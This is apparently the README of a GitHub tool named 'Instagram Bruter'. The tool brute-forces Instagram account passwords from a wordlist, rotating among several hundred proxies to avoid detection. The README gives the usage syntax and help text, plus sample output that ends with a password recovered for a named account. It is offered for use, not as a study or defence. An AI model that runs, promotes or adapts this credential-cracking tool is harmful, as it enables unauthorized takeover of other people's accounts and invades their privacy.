 # Instagram Bruter

Re-engineered to work **without** TOR

__Usage:__ `python instagram.py <username> <wordlist> <threads>`
<br>
**Example:** `python instagram.py Sami09.1 pass.lst 16`

### Requirements
- Python *v2.x* **|** *v3.x*
- ~~Kali Linux 2.0~~
- ~~TOR~~

### Help
```
C:\Users\Adnan\Desktop\Instagram>python instagram.py -h
usage: instagram.py [-h] username wordlist threads

positional arguments:
  username    email or username
  wordlist    password list
  threads     password per seconds. Any number <= 16

optional arguments:
  -h, --help  show this help message and exit
```

### Start
```
C:\Users\Adnan\Desktop\Instagram>python instagram.py Sami09.1 pass.lst 16
```

### Run
```
[-] Proxy-IP: 159.89.133.123[United States]
[-] Wordlist: pass.lst
[-] Username: Sami09.1
[-] Password: 16
[-] Attempts: 16
[-] Proxies: 395
````

### Stop
```
[-] Proxy-IP: 167.99.12.149[United States]
[-] Wordlist: pass.lst
[-] Username: Sami09.1
[-] Password: Sami123
[-] Attempts: 22
[-] Proxies: 394

[!] Password Found
[+] Username: Sami09.1
[+] Password: Sami123
```
